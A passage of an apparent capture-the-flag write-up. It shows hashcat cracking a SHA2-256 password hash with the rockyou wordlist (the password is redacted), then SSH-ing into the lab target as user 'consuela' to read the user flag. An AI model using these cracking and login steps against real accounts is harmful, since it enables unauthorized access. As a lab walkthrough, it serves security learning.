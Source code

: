 ```bash
ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:REDACTED
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: hash.txt
Time.Started.....: Sun Jun 23 09:21:11 2024 (3 secs)
Time.Estimated...: Sun Jun 23 09:21:14 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4310.0 kH/s (0.85ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new)
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 0/14344384 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[216361726f6c696e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 67%

Started: Sun Jun 23 09:20:54 2024
Stopped: Sun Jun 23 09:21:15 2024

$ hashcat -a0 hash.txt /usr/share/seclists/rockyou.txt --username -m1400 --show
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:REDACTED
```

I used the password to SSH to the server and read the user flag.

```bash
$ ssh consuela@target
consuela@target's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sun Jun 23 01:22:55 PM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
```